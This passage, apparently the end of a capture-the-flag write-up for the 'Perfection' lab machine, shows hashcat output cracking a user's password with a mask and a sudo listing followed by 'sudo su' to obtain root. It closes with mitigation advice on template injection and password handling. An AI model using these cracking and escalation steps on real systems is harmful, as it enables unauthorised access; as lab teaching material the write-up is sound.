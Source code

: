 ```terminal
Time.Estimated...: Fri Apr 26 10:30:38 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Mask.......: susan_nasus_?d?d?d?d?d?d?d?d?d [21]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 28980.5 kH/s (5.46ms) @ Accel:512 Loops:1 Thr:32 Vec:1
Recovered........: 1/5 (20.00%) Digests (total), 1/5 (20.00%) Digests (new)
Progress.........: 1000000000/1000000000 (100.00%)
Rejected.........: 0/1000000000 (0.00%)
Restore.Point....: 1000000000/1000000000 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: susan_nasus_105537373 -> susan_nasus_737484646
```

We got the password, now let's check our privileges.

```terminal
susan@perfection:~$ sudo -l
[sudo] password for susan: 
Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
```

We can get root easily by running `sudo su`

```terminal
susan@perfection:~$ sudo su
root@perfection:/home/susan# id
uid=0(root) gid=0(root) groups=0(root)
root@perfection:/home/susan# 
```

## **Prevention and Mitigation**

### SSTI vulnerability

Server Side Template Injection is a severe vulnerability that allows for file read and even remote command execution.

To prevent such vulnerability, user input should always be sanitized before passing it to the templates, this is done by removing unwanted and risky characters.

Another thing is to use a `Sandbox`, so in case of an exploit, the attacker would be very limited from any malicious activities.

### Passwords

The password format was very strong, but it was revealed to us from the email. Email containing sensitive information should be encrypted and deleted after they're opened.

---